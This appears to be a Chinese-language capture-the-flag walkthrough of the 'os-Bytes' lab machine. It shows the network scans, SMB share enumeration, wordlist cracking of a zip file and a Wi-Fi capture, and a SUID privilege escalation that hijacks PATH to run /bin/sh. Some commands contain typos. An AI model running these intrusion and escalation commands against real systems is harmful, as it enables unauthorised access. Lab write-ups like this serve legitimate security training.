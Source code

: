 # os-Bytes

## 信息收集

`netdiscovery -i eth0`

`nmap -sV -sC 192.168.43.74 -oA os-Bytes`

`gobuster  -u 192.168.43.74 -w /usr/share/wordlists/dirbuster/ -t 100`

## 攻击开始

![image-20201227202751388](https://i.loli.net/2020/12/27/pSZyO13kemdjqbv.png)

有smb端口开放，使用nmap脚本泡一下

`nmap -p 139,445 --script=smb-vuln-*.nse --script-args=unsafe=1 192.168.43.74`

![image-20201227202845114](https://i.loli.net/2020/12/27/WGlYbioST6x9RMd.png)

大骂一句辣鸡什么东西。

![image-20201227202905979](https://i.loli.net/2020/12/27/r8cuHSd5RXUVYb6.png)

`smbmap -H 192.168.43.74`列出他的共享目录，发现没有权限。

![image-20201227202957948](https://i.loli.net/2020/12/27/V3dtGpKDQilfcnZ.png)

发现admin用户密码不对的时候自动使用guest访问。

![image-20201227203050631](https://i.loli.net/2020/12/27/CfzWwNGLhXkVcMK.png)

一个专业的评估软件。可以跑出来有哪些用户。

然后使用`smbmap -H 1192.168.43.74 -u sm`b来测试出这个账户没有密码

![image-20201227203923930](https://i.loli.net/2020/12/27/pTsNyOBhefgmYu7.png)

![image-20201227204110324](https://i.loli.net/2020/12/27/qTvjAetdWMbHOi9.png)

发现登陆不上去，但是smb用户是没有密码的，但是为什么也是一样的呢？

说明smb的共享目录被隐藏了，现在来尝试下一种方法。（读取隐藏目录）

![image-20201227204242998](https://i.loli.net/2020/12/27/jTpRZaWLfD96CIs.png)

猜测目录的位置

`/home/smb`或者`/home/smb/smb`目录的操作。

![image-20201227204420368](https://i.loli.net/2020/12/27/rRgh3Mcp6LajQd4.png)

![image-20201227204509954](C:\Users\Crawler\AppData\Roaming\Typora\typora-user-images\image-20201227204509954.png)

这样就登陆成功并且拿到了文件。

然后爆破压缩包

`fcrackzip -D -p  /usr/share/wordlists/rockyou.txt  -u safe.zip`

`aircrack-ng -w /usr/share/wordlists/rockyou.txt user.cap` 爆破加密流量包。

然后得到账号和密码，ssh登陆。

然后查找有无suid文件。`find / type f -perm -u=s 2>/dev/null`

`xxd /usr/bin/netscan| less`分析文件。

![image-20201227211519718](C:\Users\Crawler\AppData\Roaming\Typora\typora-user-images\image-20201227211519718.png)

来做环境变量的劫持。

![image-20201227211651547](C:\Users\Crawler\AppData\Roaming\Typora\typora-user-images\image-20201227211651547.png)

```
因为这个root程序运行的时候，会调用netstat命令
echo "/bin/sh" >netstat
chmod 755 netstat
echo $PATH
export PATH=/tmp:$PATH
echo $PATH
然后就可以了。suid劫持提权。
```

```
sudo -l 查看当前权限，以及权限说明
```

